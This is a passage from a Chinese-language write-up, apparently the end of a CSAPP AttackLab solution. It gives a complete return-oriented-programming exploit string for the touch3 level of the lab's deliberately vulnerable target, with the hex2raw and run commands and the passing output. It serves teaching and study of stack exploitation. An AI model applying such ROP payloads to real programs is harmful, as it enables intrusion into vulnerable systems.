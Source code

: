直接运行发现遇到了段错误，顺理成章地想到我们在 phase4 中踩过的坑，栈指针没有对应十六字节，导致错误。

所以我们略微调整一下输入代码，引入一下 phase4 中就找到的无义序列地址 `0x402244` 并减少后面的一行代码，得到新的 `p6.txt`：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
44 22 40 00 00 00 00 00
8d 22 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 00 00 00 00 01 00 00
```

编译运行：

```bash
./hex2raw < p6.txt > p6a.txt
./starget -i p6a.txt
```

一遍通过！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target starget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

至此，我们终于踩完了所有的坑，完成了 AttackLab！

## 参考资料

- [不周山 / 【读厚 CSAPP】III Attack Lab](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
